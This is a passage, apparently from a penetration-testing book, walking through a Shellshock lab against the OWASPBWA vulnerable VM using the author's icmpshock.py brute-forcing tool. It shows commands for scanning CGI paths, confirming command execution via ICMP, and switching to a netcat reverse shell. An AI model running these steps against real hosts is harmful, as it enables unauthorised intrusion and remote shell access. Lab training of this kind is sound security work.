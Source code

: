 inject after the trailing semicolon, which will be parsed and executed by vulnerable versions of Bash.
Shellshock Lab
This sounds complex, but the best way to demonstrate shellshock is through an example. This will
give you a good understanding of how it works. The OWASPBWA vulnerable web application
virtual machine is vulnerable to the Bash exploit, so make sure you have it running. Log into that VMimage and copy the vulnerable cgi file listed below first.
On the OWASPBWA VM Image from a Terminal:
● wget --no-check-certificate
https://raw.githubusercontent.com/cheetz/icmpshock/master/test.cgi -O /usr/lib/cgibin/test.cgi
● chmod +x /usr/lib/cgi-bin/test.cgi
● Find the IP of the vulnerable host (ifconfig)
This will write a shell script to the cgi-bin folder that we need to use to execute the vulnerability.
Remember for something like Shellshock to work, it needs to have a bash file in the cgi-bin folder.
You can access it by going to a browser and inputting http://[IP of vulnerable host]/cgi-bin/test.cgi. If
everything worked, you should see a page that just says “hi”.
Going back to our attacking Kali host, we are going to use a tool I created called icmpshock.py (note
that there is also a Metasploit module, so try them all). The reason I created this script is because I
wanted the tool to brute-force through all common cgi type files at an amazing speed and test all the
common HTTP header information (User Agent, Cookie, Host, Refer) with ShellShock. As long as
you have a pretty big pipe, you can take advantage of Python’s threading to brute-force through all cgi
files/directories in just seconds. Remember that we are going for quick and efficient to try to pop as
many boxes as possible.
Now, we go back to our attacking VM host, which you have already configured at the beginning of the
book, and go to:
● cd /opt/icmpshock/
● chmod +x icmpshock.py
● gedit target_list.txt and add the vulnerable server's IP
● Start Up tcpdump to listen for ICMP in a new terminal window.
○ tcpdump -nni eth0 -e icmp[icmptype] == 8
● ./icmpshock.py [Listener IP of the Kali Host] target_list.txt
This script will brute-force through many different common cgi paths and filenames. If it successfully
identifies a file and that file is a shell script, it will inject the shell shock exploit to force the systemto ping back to our victim host. This shows that the victim is not only vulnerable, but that we also
have command execution.
This is why we set tcpdump to listen to ICMP requests. In the example below, the icmpshock.py
script is going through its list of cgi location/files and when it hits cgi-bin/test.cgi, it causes the victimhost to ping our attacker box.
ICMPShock Exploit
We now know we have command execution and can go back to our script to change the “Command”
variable to run whatever shell command we want:
● gedit icmpshock.py
We won’t get into post exploitation in this section, but the easiest thing to do would be to spawn a
reverse netcat listener up. Let’s uncomment the code with the bin/nc command and comment the
original ping comment.
ICMPShock - Enabling a Netcat Listener
After making modifications to the code, we need to open a new terminal window and set up a listener
(instead of the ICMP tcpdump setting configured in the prior example) on the attacking host:
● nc -l -p 4444
Run the icmpshock.py tool again and you should get a connection back. To test, we can run a quick
“list directory contents” command (ls) and we should see the files in that directory.
ICMPShock - Exploit
We have a full shell on all the vulnerable shellshock systems. We aren’t limited to only web-based
shellshock exploits either, as you can see below: